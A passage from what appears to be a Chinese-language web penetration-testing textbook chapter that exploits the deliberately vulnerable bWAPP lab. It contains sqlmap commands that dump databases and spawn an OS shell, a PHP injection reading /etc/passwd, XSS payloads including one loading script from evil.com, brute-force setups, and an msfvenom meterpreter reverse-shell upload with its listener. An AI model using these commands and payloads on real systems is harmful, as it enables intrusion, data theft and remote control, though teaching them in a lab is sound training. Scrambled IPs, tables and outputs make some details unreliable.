[5 tables]
| blog
| movies
| visitors |
```

图 6.9: bWAPP 中的可用表列表

## 6. 通过运行图 6.10 所示的命令 `sqlmap -u <target URL> --random-agent -D <database name> --dump` 从目标或整个数据库检索数据，`sqlmap` 将所有数据显示在终端中。

```
Command: sqlmap -u http://192.168.29.25/bWAPP/sqli_1.php?title=

cookie=PHPSESSID=q8omhem3kkkoi09sfnfo9ukim22;security_level=0

random-agent -D bwapp --dump
```

```
[00:00:56] [INFO] cracked 'bug' for 'A.I.M.'
Database: bwapp
[2 entries]
| id | login | secret | activated | reset |
|---|---|---|---|---|
| 1 | bwapp@allmail.com | A.I.M. | A.I.M. or Authentication Is Missing | 6885506883104e358795a7f88(bug) |
| 2 | bwapp-dol.com | Any bugs? | 6885506883104e358795a7f88(bug) |

[00:01:42] [INFO] table 'users' created in 'bwapp'
[00:01:43] [INFO] table 'comments' created in 'bwapp'
[00:01:43] [INFO] fetching entries for table 'users' in database 'bwapp'
| id | genre | title | release_year | tickets | main_character |
|---|---|---|---|---|---|
| 1 | t11s8621 | action | G.I. Joe | 2012 | 100 | Cobra Commander |
| 2 | t08c7771 | action | Man of Steel | 2013 | 75 | Superman |
| 3 | t09b7826 | action | Man of Steel | 2013 | 78 | Clark Kent |
| 4 | t09a4b70 | action | The Amazing Spider-Man | 2012 | 120 | Peter Parker |
| 5 | t10c35d8 | horror | The Dark Knight | 2008 | 60 | Joker |
| 6 | t0832580 | action | The Fast and the Furious | 2009 | 48 | Dominic Toretto |
| 7 | t09b3333 | action | Batman | 2008 | 23 | Bruce Wayne |
| 8 | t1085711 | horror | World War II | 2013 | 0 | Gerry Lane |
```

图 6.10: 从检索的数据库提取的数据

## 7. 使用图 6.11 所示的命令 `sqlmap -u <target URL> --random-agent --is-dba` 验证用户账户在目标数据库上是否具有管理员 (DBA) 权限：

命令: `sqlmap -u "http://192.168.29.25/BWAPP/sqli_1.php?title=--cookie=PHESSID=8qomhem3koi09sfnfo9ukim2;security_level=0" --random-agent --is-dba`

```
[03:01:56] [INFO] the back end DBMS is MySQL
web operating system: Windows
application technology: PHP 5.6.3, Apache 2.4.25
back end DBMS: MySQL > 5.0 (MariaDB fork)
[03:01:56] [INFO] testing if user is DBA
[03:01:56] [INFO] fetching current user
current user is DBA: True
```

图 6.11: 验证用户账户是否具有管理员权限

## 8. 使用命令 `sqlmap -u` 获取 DBA 为 true 的 OS shell。OS shell 是一个用于与操作系统交互并执行各种任务（如运行命令、自动化任务、自定义环境和调试问题）的命令行界面。见图 6.12：

命令: `sqlmap -u "http://192.168.29.25/BWAPP/sqli_1.php?title=--cookie=PHESSID=8qomhem3koi09sfnfo9ukim2;security_level=0" --random-agent --os-shell`

### PHP 代码执行

PHP 代码执行（或远程代码执行 (RCE)）是一种安全漏洞，允许攻击者在服务器上运行任意代码。当用户输入在在使用如 `eval()` 等 PHP 函数之前没有经过正确的清洗或验证时，就会出现这种情况。这可能导致对系统的未经授权的访问或完全控制。

为了实际理解如何利用 PHP 代码执行，我们将使用 `bWAPP` 中单个 `GET` 参数的示例。以下是测试 PHP 代码执行的逐步方法：

```
[08:17:22] [INFO] the back end DBMS is MySQL
web server operating system: Windows
php: 7.4.28
back-end DBMS: MySQL 5.7.31 (Oracle)
[08:17:22] [INFO] There is a syntax error in command
[08:17:22] [INFO] Fingerprinting the back-end DBMS operating system
[08:17:22] [INFO] The back-end DBMS serving version is MySQL
[08:17:22] [INFO] The application language does the web server support?
[1] SQL
[2] ASP
[3] PHP
[4] JSP
do you want to try to provide the full get query? [v/y]
to get more details visit http://192.168.29.258/bwapp/login.php do you want to? [v/y]
[08:17:22] [INFO] referred the web server document: "/tmp"
[08:17:22] [INFO] GET /bwapp/sqli_injection.php?id=1%20OR%20'1'='1 HTTP/1.1
[08:17:22] [INFO] The file has been successfully uploaded to "/tmp/phpY7.php" -- http://192.168.29.258/bwapp/tmp/phpY7.php
[08:17:22] [INFO] Executing OS command: "whoami" -- http://192.168.29.258/bwapp/cmd.php
command output:
t AUTHORITY\NT
do you want to retrieve the command standard output? [v/y]
do you want to see the command output? [v/y]
Volume of drive C has no label
Volume of drive C is
```

> 图 6.12: DBA 为 true 的 OS shell

注意：与 `GET` 参数中的 SQL 注入类似，`POST` 参数中的 SQL 注入允许恶意用户在网站表单字段中插入 SQL 语句，意在利用后端数据库漏洞并获得对敏感数据的未经授权访问，甚至接管整个 Web 服务器。

## PHP 代码注入

这一个测试页面，用于反射你的消息。


2. 你可以通过修改 URL 以包含你所需的消息来编辑默认消息。要这样做，请在 URL 中添加 `message=your-message`，如图 6.14 所示：


3. 通过 PHP 代码注入，你还可以访问服务器上的各种信息。例如，你可以通过在 `test` 之后添加分号（;) 并在 URL 中命令 `system('dir' ;` 来列出目录。同样，你可以使用命令 `system('cat /etc/passwd');` 来访问密码。参见图 6.15：

## bWAPP

极其漏洞的 Web 应用程序！

- 漏洞 修改密码 创建用户 设置安全级别 Kismet 积分 博客 登出 欢迎

### PHP 代码注入 /

这是一个测试页面，用于反射你的消息

这没有价值，没有意图。序列号为 `C:\xampp\bWAPP` 的 `BAAC-CECF`

| 日期 | 时间 | 信息 |

| :--- | :--- | :--- |

| 15-04-2024 | 07:04:07 | |

| 08-03-2024 | 15:12:58 | 15-04-2024 07:04:07 |

| admin | 11-05-2024 23:00:03 | 15-04-2024 07:04:07 |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 6223 `ba_captcha_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 1328 `ba_user_login_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 5338 `ba_session_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 5748 `ba_logout_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 7527 `best_login_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 8194 `best_password_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 9213 `best_cmd_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 9704 `best_attack_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 5907 `best_test_php` |

| 07-08-2024 | 01:11:56 | 07-01-2024 07:11:57 | 7558 `best_list` |

> 图 6.15：获取目录列表

4. 你可以通过在 URL 中使用命令 `system('whoami');` 来检查用户/组，如图 6.16 所示：

## bWAPP

极其漏洞的 Web 应用程序！

- 漏洞 修改密码 创建用户 设置安全级别 重置 积分 博客 欢迎

### / PHP 代码注入 /

这是一个测试页面，用于反射你的消息

`testletktop-23nilmu?`

> 图 6.16：检查用户/组

`bWAPP` 是一个旨在促进命令和代码注入漏洞的 Web 应用程序。用户可以访问应用程序中的各种页面来测试特定的漏洞，例如命令注入（Shellshock）、基于时间的命令注入、PHP 代码注入、XPath 注入和服务器包含（SSI）注入。

## 登录暴力破解

暴力破解攻击是一种常见的网络攻击，涉及攻击者反复尝试不同的用户名和密码组合以非法访问应用程序或系统。这些攻击通常是自动化的，可能会导致用户账户或管理功能的破坏。

为了更好地理解暴力破解攻击，让我们来看使用 `bWAPP` 的示例。以下是使用 `Burp Intruder` 利用 `bWAPP` 利用暴力破解漏洞的逐步方法：

1. 首先，打开 `bWAPP` 并导航到登录部分。输入用户名和随机密码（如 `test`），如图 6.17 所示：


2. 接下来，打开 `Burp Suite` 并配置它拦截来自浏览器的请求。点击登录按钮提交请求并在 `Burp Suite` 中捕获它。这样做只需右键点击捕获的请求并选择“Send to Intruder”，如图 6.18 所示：


- 3. 在 `Intruder` 标签页中，导航到 `Positions` 部分并点击 `Clear` 移除所有参数。然后逐个选择每个参数，然后点击 `Add`。在此例中，我们选择了密码参数，如图 6.19 所示：


> 图 6.19：进入 `Positions` 标签页并选择密码字段

- 4. 在 `Payloads` 标签页中，选择 `Simple list payload` 并输入一组待试的密码列表，如图 6.20 所示：


> 图 6.20：输入密码列表

- 5. 在 `Intruder` 标签页中点击 `Start Attack` 开始。等待攻击完成后，检查 `Results` 标签查看是否有密码成功。成功的登录将通过具有 `302` 重定向的请求识别。参见图 6.21：

| 请求 | 负载 | 状态 | 长度 | 注释 |
| :--- | :--- | :--- | :--- | :--- |
| `admin` | `200` | `0s` | `441` | |
| `guest` | `200` | `0s` | `441` | |
| `password` | `200` | `0s` | `441` | |
| `root` | `200` | `0s` | `441` | |
| `test` | `302` | `0s` | `238` | |
| `dog` | `200` | `0s` | `441` | |
| `user` | `200` | `0s` | `441` | |
| `book` | `200` | `0s` | `441` | |

```
HTTP/1.1 302 Found
Date: Tue, 14 Aug 2023 12:47:02 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, max-age=0, revalidate, post-check=0, pre-check=0
Connection: close
Set-Cookie: PHPSESSID=51c0ba2e46677e1; HttpOnly; expires=18-Aug-2024 12:47:02 GMT; Max-Age=315600; path=/
Location: /portal.php
Content-Type: text/html; charset=UTF-8
```

> 图 6.21：在 `Intruder` 标签页中点击 `Start Attack` 开始攻击

注意：有多种暴力破解工具可用，包括 `Burp Suite`、`Hydra` 和 `Medusa`，常用于渗透测试。但重要的是，某些防御暴力破解的账户锁定策略或 `IP` 速率限制可能会被攻击者使用响应延迟、用户代理切换或动态 `IP` 地址绕过。

## 身份失效

Web 应用程序中常见的漏洞是身份失效和会话管理，这允许攻击者绕过验证访问用户账户或管理功能。这种漏洞由于多种因素引起，包括弱密码、会话固定或会话劫持。

为了全面学习身份失效，让我们探索使用 `bWAPP` 的示例，步骤如下：

- 1. 在 `bWAPP` 中导航到 `Broken Auth - Insecure Login Forms` 漏洞并点击 `Hack`，如图 6.22 所示：


> 图 6.22：导航到 `Broken Auth - Insecure Login Forms`

- 2. 在漏洞页面上右键点击并选择查看源代码，如图 6.23 所示：


3. 检查页面源代码值得注意的信息。在此例中，你将发现硬编码的用户名 `tonystark` 和密码 `I am Iron Man`，如图 6.24 所示：

```
<div id="main">
  &lt;Broken Auth. - Insecure Login.&gt;
  &lt;p&gt;Enter your credentials.&lt;/p&gt;
  &lt;form action="ba/insecure_login.php" method="POST"&gt;
    &lt;p&gt;&lt;label for="username"gt;username&lt;span style="color:white"gt;tonystark&lt;/span&gt;&lt;/label&gt;&lt;input type="text" id="username" name="username" size="20"&gt;&lt;/p&gt;
    &lt;p&gt;&lt;label for="password"gt;password&lt;span style="color:white"gt;I am Iron Man&lt;/span&gt;&lt;/label&gt;&lt;input type="password" id="password" name="password" size="20"&gt;&lt;/p&gt;
    &lt;button type="submit" value="Login"&gt;Login&lt;/button&gt;
  &lt;/form&gt;
&lt;/div&gt;
```

> 图 6.24：发现硬编码的用户名和密码

4. 使用发现的凭据登录账户。此时，你将看到屏幕上显示登录成功，如图 6.25 所示：

## bWAPP

极其漏洞的 Web 应用程序！

- 漏洞 修改密码 创建用户 设置安全级别 XSS 积分 博客 登出 漏洞

### / Broken Auth. Insecure Login Forms /

输入你的凭据

登录

密码

`login`

登录成功！你是钢铁侠

> 图 6.25：使用发现的凭据登录账户

## 不安全的直接对象引用

不安全的直接对象引用（`IDOR`）是 Web 应用程序的一种漏洞，当应用程序在没有实现适当权限检查的情况下向用户界面暴露内部实现对象（如文件或数据库密钥）时发生。这允许攻击者访问未经授权的敏感数据或功能。

为了形象地理解 `IDOR`，我们可以参考 `bWAPP` 的示例并按照以下逐步方法：

- 1. 打开 `bWAPP` 上的 `Insecure DOR (Change Secret)` 页面并输入新密钥，如图 6.26 所示：

# bWAPP - 一个极其多漏洞的 Web 应用！

| 漏洞 | 修改密码 | 创建用户 | 设置安全级别 | Kawet | 鸣谢 | 博客 | 登录 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 修改你的密钥 | 用户密钥 | 存在无限制访问 | 修改 | | | | |

图 6.26: 在 `bWAPP` 中打开不安全的直接对象引用（修改密钥）页面

3. 激活处于代理监听模式下的 `Burp`，并拦截请求以获取登录用户的用户名，可以如图 6.27 所示进行修改：

```
POST /bwapp/insecure_direct_object_ref_1.php HTTP/1.1
Host: 192.168.29.25
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4140.105 Safari/537.36
Referer: http://192.168.29.25/bwapp/insecure_direct_object_ref_1.php
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webpif,image/apng/*;q=0.8
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
secret=randomhereisthislogin-action=change
```

图 6.27: 拦截请求以获取登录用户的用户名

3. 如果你知道另一个用户的用户名，修改请求以在没有授权的情况下更改其账户。替换目标用户名并从 `Burp` 发送请求，如图 6.28 所示：

```
1 GET /dwapp/insecure_direct_object_ref_1.php HTTP/1.1
2 Host: 102.168.0.25
3 Content-Length: 53
4 Cache-Control: max-age=0
5 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
6 Accept: */*;q=0.9, deflate/*;q=0.8
7 Referer: http://102.168.0.25/dwapp/insecure_direct_object_ref_1.php
8 Connection: close
9 Accept-Encoding: gzip, deflate
10 Accept-Language: en-US,en=0.9
11 Cookie: PHPSID=612b51884155CtUq0; security_level=0
12 secret=Hmdresult1relogin=true#action=change
```

图 6.28: 应该将新的密钥密钥添加到目标数据库中

**4. 如果成功，目标数据库账户在没有适当授权的情况下被篡改。检查 `MySQL` 数据库（通过 `phpMyAdmin` 访问）以确认 `BPB` 账户的密钥已从 `Bee` 的账户更改，利用了图 6.29 所示的 `IDOR` 漏洞：**


图 6.29: `BPB` 账户的密钥已更改

**5. 审查源码后，明显看出除了字符过滤器外，没有任何条件检查或验证措施，如图 6.30 所示：**

```
if ($_COOKIE["security_level"] != "1" && $_COOKIE["security_level"] != "2") {
    if (isset($_REQUEST["login"]) && $_REQUEST["login"]) {
        $login = mysqli_real_escape_string($link, $login);
        $secret = mysqli_real_escape_string($link, $secret);
        $secret = htmlspecialchars($secret, ENT_QUOTES, "UTF-8");
        $sql = "UPDATE users SET secret = '" . $secret . "' WHERE login = '" . $login . "'";
    }
}
```

图 6.30: 无条件或验证

> 注意：Web 应用程序可能在多个区域包含 `IDOR` 漏洞，例如用户账户管理、访问控制、文件上传、支付处理和 `API` 端点。

## 使用 XSS validator 进行 XSS

一种称为跨站脚本（`XSS`）的 Web 漏洞允许攻击者在受害者的浏览器中注入并执行恶意代码。当用户输入没有得到适当过滤时，就会产生该漏洞，允许攻击者注入查看页面的其他用户执行的代码。这些攻击可以大致分为三类：

- **存储型 XSS (Stored XSS)**：在此类攻击中，攻击者将恶意代码注入 Web 应用程序的服务器或数据库，然后显示给所有访问特定页面的用户。这种攻击可能导致敏感数据泄露，例如登录凭据、个人信息或财务数据。

- **反射型 XSS (Reflected XSS)**：此类攻击涉及将恶意代码注入 `URL` 中，然后将其反射回用户的浏览器。攻击者通常诱骗受害者点击包含恶意代码的链接，随后代码在受害者的浏览器上执行。反射型 `XSS` 攻击难以检测，通常用于钓鱼计划。

- **基于 DOM 的 XSS (DOM-based XSS)**：在此类攻击中，攻击者将恶意代码注入 Web 页面的文档对象模型（`DOM`）。该代码完全在客户端执行，攻击者可以操纵用户与页面的交互来执行代码。基于 `DOM` 的 `XSS` 攻击通常用于窃敏感数据或劫持用户会话。

`XSS Validator` 是一个强大的工具，有助于检测和验证 Web 应用程序中的 `XSS` 漏洞。`bWAPP` 是一个专门设计的 Web 应用程序，带有故意漏洞，用于学习和练习各种安全技术，包括利用 `XSS`。以下是使用 `XSS Validator` 在 `bWAPP` 上利用 `XSS` 的详细步骤指南：

1. 打开 `bWAPP` 应用并导航到 `XSS - Reflected (GET)` 页面，该页面模拟了一个易受反射型 `XSS` 攻击的漏洞应用程序，如图 6.31 所示。


图 6.31: 导航到反射型 `XSS` 页面

2. 拦截带有随机输入的请求，通过右键点击将其发送到 `Intruder`。选择 `Positions` 标签页，选择第一个和第二个参数，如图 6.32 所示。


图 6.32: 进入 `Positions` 标签并选择第一两个参数

3. 导航到 `Payloads` 标签页并将 `Payload` 类型设置为 `Extension-generated`。然后选择 `xss Validator Payloads` 作为生成器。确保取消勾选 `URL` 编码，如图 6.33 所示。


图 6.33: `Payload` 类型设置为 `Extension-generated`

4. 现在，进入 `xssValidator` 并复制 `Grep Phrase`。然后返回 `Intruder` 标签页，如图 6.34 所示。

## xssValidator

作者：James Brown@gmail.com

版本 1.0

- 从存储库下载各种版本的 `xss` 检测器

- 在设置标签页下，将 `Grep` 添加到设置面板

- 选择检测器以验证 `grep` 短语的存在


`Phantom Server Settings`

`Other Server Settings`

`Grep Phrase`

`Grep Phrase for JS check`

`Javascript functions`

`Javascript event handlers`


图 6.34: 进入 `XSS Validator` 并复制 `Grep Phrase`

## Payload

自定义 `Payload` 可以通过复选框激活或禁用。

- `(PAYLOADS)` 变量定义了攻击列表

- 每个 `payload` 可用于多次请求

```
<script src="http://evil.com/xss.js"></script>

<svg onload=alert(1)>
<body onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<details open ontoggle="alert(1)">
<input autofocus="alert(1)">
<video onplay="alert(1)">
<audio onplay="alert(1)">
<input onfocus="alert(1)">
<select onfocus="alert(1)">
<textarea onfocus="alert(1)">
<option onfocus="alert(1)">
<label onfocus="alert(1)">
<button onfocus="alert(1)">
<div onfocus="alert(1)">

<svg onfocus="alert(1)>
<iframe onfocus="alert(1)">
```


## 攻击保存列

| 请求 | 位置 | 负载 | 状态 | 错误 | 超时 | 长度 | ly7edu | P.grep | 注释 |
|---|---|---|---|---|---|---|---|---|---|
| `0` | | `<script>alert-confirm(29972450);</script>` | `200` | | | `13690` | | | |
| `1` | `1` | `<script>console.log(29972450);</script>` | `200` | | | `13716` | | | |
| `2` | `1` | `<script>prompt(29972450);</script>` | `200` | | | `13724` | | | |


| 3 | 1 | `<script>alert-confirm(29972450);</script>` | 200 | | | 13720 | | | |
| 4 | 5 | `<script>console.log(29972450);</script>` | 400 | | | 13718 | | | |
| 5 | 1 | `<script>prompt(29972450);</script>` | 400 | | | 1284 | | | |
| 6 | 1 | `<script>alert-confirm(29972450);</script>` | 400 | | | 1284 | | | |
| 7 | 8 | `<script>console.log(29972450);</script>` | 400 | | | 1382 | | | |
| 8 | 9 | `<script>prompt(29972450);</script>` | 400 | | | 1302 | | | |
| 9 | | `<script>alert-confirm(29972450);</script>` | 200 | | | 13726 | | | |
| 10 | 1 | `<script>console.log(29972450);</script>` | 200 | | | 13722 | | | |
| 11 | 1 | `<script>prompt(29972450);</script>` | 200 | | | 13721 | | | |

图 6.36: 为 `xssValidator` 发送请求

### 7. 检查每个请求负载的状态码和响应

如图 6.37 所示：

| ID | 方法 | 路径 | 状态 | 错误 | 超时 | 长度 | 类型 | P.grep | 注释 |
|---|---|---|---|---|---|---|---|---|---|
| 200 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 201 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 202 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 203 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 204 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 205 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 206 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 207 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 208 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 209 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 210 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 211 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 212 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 213 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |
| 214 | GET | `/index.php?id=29972450` | 200 | 0 | 0 | 15113 | text/html | | | |

```
HTTP/1.1 200 OK Mon, 01 Nov 2023 04:31:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 15367
Connection: close

<<html>
<head>
<title>XSS</title>
</head>
<body>
<script src="http://example.com/js.js?family=Attack&Daughter=<script>alert(29972450);</script>
</body>
</html>
```

图 6.37: 检查每个请求负载的状态码和响应

### 8. 查看反射型 XSS

在成功的响应上右键点击并选择响应。将 URL 粘贴到浏览器中查看来自 `GET` 参数的反射型 XSS，如图 6.38 所示：

图 6.38: 反射型 XSS

注意：`XSS Validator` 是识别 XSS 漏洞的关键 Web 应用程序。它可以测试输入验证、DOM XSS、Cookie 验证以及 HTML 标签。

## 无限制文件后门

后门是一种通过上传有害脚本或执行文件来实现未经授权 Web 服务器或应用程序的恶意软件。一旦后门建立，攻击者即可获得受影响系统的命令行访问权限。要创建后门并获取 `meterpreter`，我们将使用 `msfvenom` 来构造负载，遵循以下步骤：

1. 启动 `bWA` 应用并访问无限制上传页面，如图 6.39 所示：

2. 打开 `Kali Linux` 终端并输入命令 `msfvenom -p php/meterpreter/reverse_tcp host=192.168.29.148 lport=4444 -f webshell.php` 生成基于 PHP 的后门。在这一步中，如图 6.40 所示指定回调 IP、端口和负载类型：

```
user@kali:~/Desktop
$ msfvenom -p php/meterpreter/reverse_tcp host=192.168.29.148 lport=4444 -f webshell.php
[-] platform selected, choosing Msf::Platform
[-] arch selected, selecting: php from the payload
[-] encoder
size: 1116 bytes
```

3. 返回 `bWA` 上传新创建的 `webshell`，如图 6.41 所示：

4. 回到 `Kali Linux` 并执行图 6.42 所示的命令设置监听器。一旦完成，启动监听器。在这里，我们实际上是在初始化 `Metasploit` 监听器与目标建立反向连接。为了此目的，我们需要定义监听 IP 和端口：

```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.29.148
set lport 4444
```

```
msf use exploit/multi/handler
[*] Using payload: php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.29.148
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > run
[*] Started reverse handler on 192.168.29.148:4444
```

图 6.42: 设置监听器

5. 进入上传页面并选择上述步骤 2 所示的图像。这将跳转到一个新链接，其中将执行负载，如图 6.43 所示：

6. 最后，重新访问监听器界面查看建立的 `meterpreter` 连接。在这里，你可以执行所需的各种命令并如图 6.44 所示创建持久化：

```
msf exploit(multi/handler) > run
[*] Started TCP handler on 192.168.29.140:4444
[*] Sending stage (39927 bytes) to 192.168.29.25
[*] Meterpreter session 1 established (192.168.29.140 -> 192.168.29.25:56173) on 2023-08-16 07:04:48

meterpreter > sysinfo
Computer: DESKTOP-2ZNMU6
OS: Windows NT 6.2 build 9200 (Windows 8 Professional Edition) SP1
meterpreter > cd c:\windows
meterpreter > dir
List: C:\windows\wwwroot\images

Mode             Size     Last Modified                               Name
10066/rw-rw-rw  2406  2023-01-01 10:10:10 -0800  bee.jpg
10066/rw-rw-rw  12386  2023-01-01 23:19:00 -0800  bg_j.jpg
10066/rw-rw-rw  17552  2023-01-01 02:01:55 -0800  bg_k.jpg
10066/rw-rw-rw  3188  2023-01-02 18:26:10 -0800  bg.jpg
10066/rw-rw-rw  4445  2023-01-02 12:12:34 -0800  evil_bee.php
10066/rw-rw-rw  13112  2023-01-03 01:13:12 -0800  capcha.php
10066/rw-rw-rw  2439  2023-01-03 07:30:18 -0800  favicon.ico
10066/rw-rw-rw  5008  2023-01-03 15:21:16 -0800  favicon.ico
10066/rw-rw-rw  1150  2023-01-04 11:41:10 -0800  favicon-1.ico
10066/rw-rw-rw  5608  2023-01-04 20:04:47 -0800  google.png
10066/rw-rw-rw  1742  2023-01-05 12:30:16 -0800  linkadmin.php
10066/rw-rw-rw  2128  2023-01-05 21:13:51 -0800  shell.php
10066/rw-rw-rw  1447  2023-09-26 16:04:48 -0800  mmv.png
```

图 6.44: 建立 `meterpreter` 连接

修改用户数据或执行任意代码。这些操作可能会导致 Web 应用程序出现非预期的或有害行为。

## HTTP 参数污染

为了说明 HTTP 参数污染（`HTTP parameter pollution`）的影响，我们将使用 `bWAPP` 中的投票功能。通过在 URL 中添加额外的参数，我们可以操纵投票机制。以下分步指南概述了这一过程：

1. 打开 `bWAPP` 并导航到 HTTP 参数污染页面，如图 6.45 所示：


图 6.45：导航到 HTTP 参数污染页面

2. 在搜索框中输入名称 `Tony` 并点击继续按钮。这将显示电影列表，如图 6.46 所示：

**bWAPP**

一个极多漏洞的 Web 应用！

字体 漏洞（Errors） 修改密码 创建用户 设置安全级别 重置积分 博客 欢迎

# / HTTP 参数污染 /

你好，请从你最喜欢的电影开始。

请记住，`Tony` 以字母 T 开头：

| 电影 | 年份 | 演员 | 类型 | 投票 |
|---|---|---|---|---|
| 直升云战士 | 2013 | | 指挥官 | 动作 | 投票 |
| 钢铁侠 | 2008 | Tony Stark | 动作 | 投票 |
| 超人钢铁 | 2013 | Clark Kent | 动作 | 投票 |
| 终结者拯救 | 2009 | John Connor | 科幻 | 投票 |
| 奇迹蜘蛛侠 | 2012 | Peter Parker | 动作 | 投票 |
| 森林中的木屋 | 2011 | Zombie | 恐怖 | 投票 |

图 6.4c：输入电影名称 `Tony` 并点击继续按钮

3. 接下来，选择任意电影并点击投票。生成的 URL 如下所示：`http://192.168.29.25/bwapp/hpp-3.php?movie=6&name=tony&action=vote`，它包含三个参数：`movie`、`name` 和 `action`，如图 6.47 所示：

**bWAPP**

一个极多漏洞的 Web 应用！

字体 漏洞 修改密码 创建用户 设置安全级别 重置积分 博客 登录

# / HTTP 参数污染 /

你最喜欢的电影是：森林中的木屋

感谢您的投票！

图 6.47：选择任意电影并点击投票按钮

4. 复制相同的 URL 并添加新参数，例如 `&movie=2`，创建一个如下修改后的 URL：`http://192.168.29.25/bwapp/hpp-3.php?movie=6&name=tony&action=vote&movie=2`。将此修改后的 URL 粘贴到浏览器的地址栏并运行。如果存在 HTTP 参数污染，投票将计入电影 2 而不是电影 6，如图 6.48 所示：


图 6.48：复制相同的 URL 并添加新参数

> 注意：名为 `HTTP 参数污染 (HPP)` 的漏洞可被攻击者用来操纵 Web 应用程序中的 URL，以执行各种攻击，包括绕过安全控制、访问敏感数据、篡改功能和发起 Do 攻击。

## 业务逻辑漏洞

业务逻辑流是软件的一种漏洞，应用程序的设计和逻辑存在缺陷，允许攻击者操纵应用程序的预期行为以获取其利。与缓冲区溢出或 SQL 注入等传统漏洞相比，业务逻辑流可能更复杂且难以检测，但一旦被发现，可能会产生更大的影响。它们特定于特定的应用程序及其预定用途；识别和解决业务逻辑漏洞需要对应用程序的设计和预期功能有深入的理解。

这些漏洞会导致各种安全问题，包括数据窃取、未经授权访问敏感信息和财务欺诈。逻辑漏洞的示例包括操纵交易价值、绕过访问控制或更改用户权限。开发者在攻击者利用之前，对应用程序进行彻底测试以识别并解决业务逻辑漏洞流量。此外，持续的监控和测试有助于确保这些漏洞不会在应用程序更新或更改期间被引入或重新引入。

让我们以一个简单的 CAPTCHA 绕过示例来，说明如何在 `bWAPP` 中利用业务逻辑漏洞。遵循下面解释的分步方法，以更好地理解这一概念：

1. 首先，打开 `bWAPP` 并导航到 Broken Auth（身份认证损坏）- CAPTCHA Bypassing（CAPTCHA 绕过）页面。在登录表单中填写随机凭据和 `Captcha` 字段，点击登录按钮，如图 6.49 所示：


图 6.49：导航到 Broken Auth - CAPTCHA Bypassing 页面

2. 拦截登录请求并右键点击页面将请求发送到 `Intruder`。点击 `Positions` 标签页并选择 `Clear` 按钮。将 `Attack` 类型更改为 `Cluster bomb`（集群弹），并在 `Position` 标签页中同时选择用户名和密码作为攻击参数，如图 6.50 所示：


3. 点击 `Payloads` 标签页并选择 `Payload set`。将 `Payloads` 类型设置为 `Simple list`，并在 `Add` 框中添加 `test`、`bee`、`admin` 和 `root` 等值，如图 6.51 所示：


4. 选择 `Payload set 2` 并将 `Payloads` 类型设置为 `Simple list`。在 `Add` 框中包含 `bug`、`test` 和 `password`。由于组合很多，此攻击可能需要一段时间。见图 6.52：你可以定义一个或多个 `payload set`。`payload set` 的数量取决于 `Positions` 标签页中的攻击类型。每个 `payload set` 可以以不同的方式自定义。

| Payload set | Payload type | Count |
|---|---|---|
| Simple list | 7 |
| Simple list | 49 |
| login | 12345 |

`payload type` 配置了简单的字符串作为 `payloads`。

5. 点击 `Options` 标签页并进入 `Grep - Match`。勾选匹配这些表达式的响应。点击 `Clear` 添加 `comment`。确保 `Match` 类型设置为 `Simple string` 并勾选 `Exclude HTTP headers`，如图 6.53 所示：


# 结论

这些设置用于标记包含特定表达式的响应项。

- 匹配这些表达式的项
- `Match` 类型：`Simple string`
- 排除 `HTTP headers`

从上一步开始，点击 `Attack` 启动暴力破解。破解过程将开始。

1. 返回 `Positions` 标签页并点击 `Attack` 启动暴力破解。破解过程将开始，如图 6.54 所示：

| Request | Payload1 | Payload2 | Status | Error | Length |
|---|---|---|---|---|---|
| 0 | | | 200 | | 13914 |
| 1 | `test` | `bug` | 200 | | 13913 |
| 2 | `bee` | `bug` | 200 | | 13914 |
| 3 | `admin` | `bug` | 200 | | 13914 |
| 4 | `root` | `bug` | 200 | | 13914 |
| 5 | `admin123` | `bug` | 200 | | 13914 |
| 6 | `defa` | `bug` | 200 | | 13914 |
| 7 | `untrusted` | `bug` | 200 | | 13914 |
